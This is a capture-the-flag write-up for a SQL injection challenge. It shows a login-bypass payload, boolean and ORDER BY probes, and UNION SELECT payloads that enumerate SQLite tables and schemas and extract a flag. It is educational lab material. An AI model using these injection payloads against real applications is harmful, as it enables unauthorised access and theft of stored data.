## CHALLENGE: MORE SQLi



In here, we see the log in page,



so I think we can use the single quote (') to detect the login form does have SQLi or not.
And we recieved this message



-> The login page contains SQLi. Use the payload: >***1' or 1=1--*** to bypass the login form.



And welcome to the page :))))



But I don't see the flag anywhere, so I decide to test the search field.
With the payload:  **Algiers' AND 1=1--** we can see the result still have Algiers.



And with payload: **Algiers' AND 1=2--** the result don't retune anything.



-> The search field contains SQLi.
Now we should detect how many column. And with my experience, how many columns you see appear, it is most likely the number of columns you need to find.



In here, we see that it appear 3 columns, so maybe the number of columns could be 3.
I use the payload: **Algiers' order by 4--** and no result returns -> The column number < 4.



And with payload: **Algiers' order by 3--** the result returns Algiers -> 3 columns.



And now, we will extract the information.
In the first time, I think it is the Oracle and try so much payload :)))) And you know what, the hint already said it's sqlite :))) 

I search on github, and found the sqlite cheat sheet injection, base on that, we will get whatever you want
[Payload Page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md).
The first thing we extract is how many tables and name of them.
So I use the payload: **Algiers' UNION SELECT (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),NULL, NULL --** 



And we can see the list tables in the database. Now we want to extract columns in each tables.
the payload: **SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'** help us to do this and we have the payload like this: **Algiers' UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hints'),NULL, NULL --**
The above payload will extract the columns of **hints** table.



With a little bit logic, we can guest that the **hints** table has 2 columns ID and info.

You can repeat it until you see the **flag** column.
And you want to extract the value of the column, use this payload: **Algiers' UNION SELECT flag,NULL, NULL from <name_of_the_table> --**



Congrats, you found the flaggggg.

THANK YOU FOR LEARNING GUYS.
PATIENCE IS THE KEY, SO KEEP TRYING EVERYDAY. LUV U <3
